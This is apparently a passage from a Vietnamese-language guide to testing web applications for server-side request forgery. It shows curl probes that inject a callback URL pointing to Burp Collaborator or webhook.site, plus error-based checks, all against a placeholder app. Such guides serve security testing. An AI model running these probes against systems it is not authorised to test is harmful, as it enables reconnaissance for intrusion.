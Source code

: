 **Phân tích:**
- Nếu response time thay đổi theo URL → **Có SSRF!**
- Nếu response luôn giống nhau → Không có SSRF hoặc async

---

### **PHASE 3: SSRF DETECTION (Xác nhận lỗ hổng)**

#### **3.1. Out-of-Band Detection (Burp Collaborator)**

**Cách hoạt động:**
1. Tạo unique subdomain trên Burp Collaborator
2. Inject vào parameter
3. Monitor có DNS/HTTP request đến không

**Bước thực hiện:**

```bash
# 1. Mở Burp Suite → Burp Collaborator Client
# 2. Copy Collaborator URL: abc123.burpcollaborator.net

# 3. Test SSRF
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://abc123.burpcollaborator.net/test"

# 4. Check Burp Collaborator → Có request đến!
# HTTP request received:
# GET /test HTTP/1.1
# Host: abc123.burpcollaborator.net
# User-Agent: python-requests/2.28.0
# ↑ Xác nhận backend đã gửi request!
```

**Không có Burp Suite? Dùng alternatives:**
- **Webhook.site**: https://webhook.site (free)
- **RequestBin**: https://requestbin.com
- **Interactsh**: https://app.interactsh.com

**Ví dụ với Webhook.site:**
```bash
# 1. Mở https://webhook.site → Copy unique URL
# Example: https://webhook.site/abc-123-def

# 2. Test
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=https://webhook.site/abc-123-def"

# 3. Refresh webhook.site → Thấy request từ server!
```

#### **3.2. Error-Based Detection**

**Phân tích error messages:**

```bash
# Test với invalid URL
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://invalid-domain-xyz123.com"

# Có thể nhận error:
{
  "error": "Name or service not known",
  "details": "Failed to resolve host: invalid-domain-xyz123.com"
}
# ↑ Backend đã cố gắng resolve domain → SSRF confirmed!

# Test với unreachable IP
curl "https://yourapp.example.com/api/inventory/1/M?callback_url=http://192.0.2.1:9999"

# Có thể nhận error:
```